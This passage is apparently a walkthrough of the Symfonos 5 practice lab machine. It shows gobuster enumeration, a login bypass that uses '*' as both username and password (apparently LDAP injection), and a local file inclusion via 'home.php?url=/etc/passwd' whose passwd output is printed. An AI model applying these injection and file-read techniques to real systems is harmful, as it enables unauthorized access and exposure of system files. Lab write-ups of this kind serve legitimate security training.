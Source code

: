 ```
|       supportedSASLMechanisms: NTLM
|       supportedSASLMechanisms: CRAM-MD5
|_      subschemaSubentry: cn=Subschema
636/tcp open  ldapssl?
```

#### GoBuster

```
gobuster dir -u http://10.0.2.10 -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -t 60 -x txt,php,bak
```

```
/admin.php    (Status: 200) [Size: 1650]
/index.html   (Status: 200) [Size: 207]
/home.php     (Status: 302) [Size: 979] [--> admin.php]
/logout.php   (Status: 302) [Size: 0] [--> admin.php]
```

---

### Exploitation

- Go to `http://10.0.2.10/admin.php`
- I tried a few LDAP injection payloads but they didn't work. After some Googling, tried `*` for both username and password and that logged me in and took me to `http://10.0.2.10/home.php`.

![Symfonos 5 Login](/imgs/symfonos5/symfonos5_login.png)

- If we check the source for this `http://10.0.2.10/home.php` after logging in or before logging in if we intercept this request with 'Intercept Server Responses' turned on, we can see this hyperlink which shows a possibility of LFI vulnerability.

```
<a class="nav-link" href="http://127.0.0.1/home.php?url=http://127.0.0.1/portraits.php">Portraits</a>
```

- If we click on 'Portraits', we are taken to:
- ```
  http://10.0.2.10/home.php?url=http://127.0.0.1/portraits.php
  ```

- As we can see, `home.php?url=` seems vulnerable to Local File Inclusion LFI vulnerability.

- ```
  http://10.0.2.10/home.php?url=/etc/passwd
  ```
- Note that this LFI will only work **after** you have logged in with `*:*`.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```